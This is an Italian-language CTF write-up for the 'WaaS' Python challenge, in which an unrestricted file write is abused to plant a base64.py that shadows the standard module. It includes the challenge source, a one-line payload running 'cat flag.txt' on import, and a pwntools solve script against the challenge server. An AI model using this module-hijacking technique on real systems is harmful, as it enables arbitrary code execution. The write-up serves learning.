 +++
title = 'WaaS'
date = 2024-08-06T11:27:07+02:00
tags = [
  "Misc",
  "Python",
  "491 points",
  "78 solves",
  "NoobMaster + NoobHacker"
]
draft = true
+++

<h1 style='text-decoration: underline;text-decoration-color: #9e8c6c;font-size: 3em;'>Waas</h1>

**Descrizione**: Writing as a Service!

## Introduction

WaaS (Writing as a Service) ci permette di sovrascrivere un file sul sistema (dopo un certo controllo dell'input) e di inserirvi tutto ciò che vogliamo (fino a quando non si incontra un newline).

```python
import subprocess
from base64 import b64decode as d
while True:
        print("[1] Write to a file\n[2] Get the flag\n[3] Exit")
        try:
                inp = int(input("Choice: ").strip())
        except:
                print("Invalid input!")
                exit(0)
        if inp == 1:
                file = input("Enter file name: ").strip()
                assert file.count('.') <= 2 # Why do you need more?
                assert "/proc" not in file # Why do you need to write there?
                assert "/bin" not in file # Why do you need to write there? 
                assert "\n" not in file # Why do you need these?
                assert "chall" not in file # Don't be overwriting my files!
                try: 
                        f = open(file,'w')
                except:
                        print("Error! Maybe the file does not exist?")

                f.write(input("Data: ").strip())
                f.close()
                print("Data written sucessfully!")

        if inp == 2:
                flag = subprocess.run(["cat","fake_flag.txt"],capture_output=True) # You actually thought I would give the flag?
                print(flag.stdout.strip())
```

## Solution

In un primo momento si potrebbe pensare di provare a bypassare la validazione dell'input, magari riscrivendo il funzionamento del comando cat o del file di sfida stesso, ma questo non è possibile.
Una cosa molto bizzarra è l'importato ma inutilizzato `b64decode` dal modulo `base64`, che è ciò che ci permette di risolvere la sfida.

Quando python importa i moduli, guarda in `sys.path`, che ha un elenco di directory valide da cui importare i moduli. Dopo una rapida ricerca nei [python3 docs](https://docs.python.org/3/library/sys_path_init.html), scopriamo che la prima directory in cui cerca è la stessa directory in cui si trova il file, il che significa che se abbiamo un file `base64.py` nella directory, allora python cercherà di importare un simbolo `b64decode` da quel file, invece del comune modulo conosciuto.
Un'altra caratteristica del comportamento di importazione di python che possiamo usare è che tutto il codice di un modulo importato sarà eseguito. Per esempio, se un file `test.py` ha `print('Hello, World!')` e può essere eseguito (per esempio se è al livello di indentazione più basso), un file con `import test` vedrà effettivamente `Hello, World!` stampato su `stdout`.
Pertanto, poiché la funzione `open` con una flag `'w' creerà un file se non esiste, possiamo semplicemente creare un file chiamato base64.py` e scriverci dentro il nostro codice malevolo.

Qualcosa del genere farà al caso vostro:

```python
import os; b64decode = 0; os.system("cat flag.txt")
```

Ma la flag non è ancora nostro; dobbiamo sfruttare il fatto che l'istanza non resetta i suoi file ogni volta che ci si connette, il che significa che il nostro `base64.py` rimarrà nella cartella per tutta la durata dell'istanza. Questo significa che dobbiamo semplicemente riconnetterci e ottenere la flag.

`solve.py`

```python
from pwn import *

def solve():
  r = remote('challs.n00bzunit3d.xyz', 10478) # PORT depends on the instance

  r.sendlineafter(b'Choice: ', b'1') # 1 to write a file
  r.sendlineafter(b'Enter file name: ', b'base64.py')
  r.sendlineafter(b'Data: ', b'import os; b64decode = 0; os.system("cat flag.txt")')

  r.close()

  r = remote('challs.n00bzunit3d.xyz', 10478) # PORT depends on the instance
  flag = r.recvline().decode()
  print(f'flag: {flag}')
  r.close()

if __name__ == '__main__':
  solve()
```

```text
$ flag: n00bz{0v3rwr1t1ng_py7h0n3_m0dul3s?!!!_f5c63f47af0e}
```

<p align="right">Author: vympel</p>

